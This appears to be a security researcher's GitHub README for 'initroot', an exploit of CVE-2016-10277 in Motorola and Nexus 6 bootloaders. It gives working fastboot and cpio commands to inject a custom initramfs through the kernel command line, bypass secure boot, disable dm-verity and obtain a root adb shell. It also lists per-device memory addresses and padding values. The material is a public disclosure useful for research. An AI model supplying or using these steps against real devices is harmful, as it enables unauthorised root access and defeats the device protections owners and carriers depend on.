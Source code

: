 # initroot: Motorola Bootloader Kernel Cmdline Injection Secure Boot & Device Locking Bypass (CVE-2016-10277) #

By Roee Hay / Aleph Research, HCL Technologies

## Instructions ##

1. Use the commited `initroot-<device>.cpio.gz`, or produce your own:
```
$ cd <initramfs folder>
$ find . | grep -v [.]$ | cpio -R root:root -o -H newc | gzip > ../initroot-<device>.cpio.gz
OR if padding is needed:
$ cp ../pad ../initroot-<device>.cpio.gz && find . | grep -v [.]$ | cpio -R root:root -o -H newc | gzip > ../tmp && ls -la ../tmp && cat ../tmp >> ../initroot-<device>.cpio.gz  && rm -fr ../tmp
$ cd ..
```
2. Our commited initramfs images have adb running as root by default. It will not ask for authorization. In addition, dm-verity is disabled on the relevant partitions
```terminal
fastboot oem config fsg-id "a initrd=<SCRATCH_ADDR+PADDING>,<initroot.cpio.gz size-PADDING>"`
fastboot flash foo initroot-<device>.cpio.gz`
fastboot continue
```
3. if you use our initramfs, `adb shell` will now give you a root shell:
```
$ adb shell
shamu:/ # id
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc) context=u:r:su:s0
```

## Verified Devices ##
| Device           | Codename | `SCRATCH_ADDR` | `PADDING`   | committed `initrams`
|------------------|--------------|--------------|-----------|---------
| Nexus 6  | `shamu` | `0x11000000`   | `0x0`         | AOSP `userdebug`
| Moto G5 (XT1676) | `cedric` | `0xA0100000`   | `0x2000000` | Release, patched `init` and `adbd` to disable SELinux, `set{u,g}id` to shell, capabilities drop and adb auth, etc
| Moto G4 (XT1622) | `athene` | `0x90000000`   | `0x2000000` | ""


## Community Reported ##
| Device           | Codename | `SCRATCH_ADDR` | Reporter | Description
|------------------|--------------|--------------|--------------|-----------
| Moto G5 Plus  | `potter` |  `0xA0100000` | [drbeat](https://github.com/drbeat)  | Injected boot property. [[proof](https://github.com/alephsecurity/initroot/issues/1)]
| Moto G4 Play (XT1609)  | `harpia` | `0x90000000` | [@utoprime](https://twitter.com/utoprime)   | Full Exploitation of Verizon XT1609. [[proof](https://twitter.com/utoprime/status/873941023050919936)]
| Moto G4 (XT1625) | `athene` | `0x90000000` | [@EWorcel](https://twitter.com/EWorcel) | Injected initrd that caused boot loops. [[proof](https://twitter.com/roeehay/status/868877672016957440)]  
| Moto G3 | `osprey` | `0x90000000` | [@asiekierka](https://twitter.com/asiekierka) | Injected initrd that caused boot loops. [[proof](https://twitter.com/asiekierka/status/873467107090075648)]
| Moto G2 (XT1072) | `thea` | TBA  | [@TheElix](https://disqus.com/by/TheElix/) | Injected initrd caused boot loops. [[proof](https://disqus.com/home/discussion/alephsecurity/initroot_hello_moto/#comment-3355705740)]
| Moto E (XT830C) | `condor_cdma` | `0x0E000000`  | [fetcher](https://disqus.com/by/disqus_U4zRE0u275/) | Full Exploitation of XT830C locked to Tracfone/Verizon with a 32MB padding [[proof](https://alephsecurity.com/2017/06/07/initroot-moto/#comment-3379229648)]
| Other | - | - | [@jcase](https://twitter.com/jcase) | [[proof](https://twitter.com/jcase/status/868930263782313984)]

## Note ##
This vulnerability may affect other Motorola devices too: a different initramfs will be needed. A different physical address of initrd (`SCRATCH_ADDR`). `PADDING` may vary as well.

## Video Demo ##

[[![Video Demo of CVE-2016-10277](http://img.youtube.com/vi/dijRMpv4ktM/0.jpg)](https://www.youtube.com/watch?v=dijRMpv4ktM)

## Publications ##
1. [initroot: Bypassing Nexus 6 Secure Boot through Kernel Command-line Injection](https://alephsecurity.com/2017/05/23/nexus6-initroot/)
2. [initroot: Hello Moto](https://alephsecurity.com/2017/06/07/initroot-moto/)
3. [Motorola Android Bootloader Kernel Cmdline Injection Secure Boot Bypass](https://alephsecurity.com/vulns/aleph-2017011)



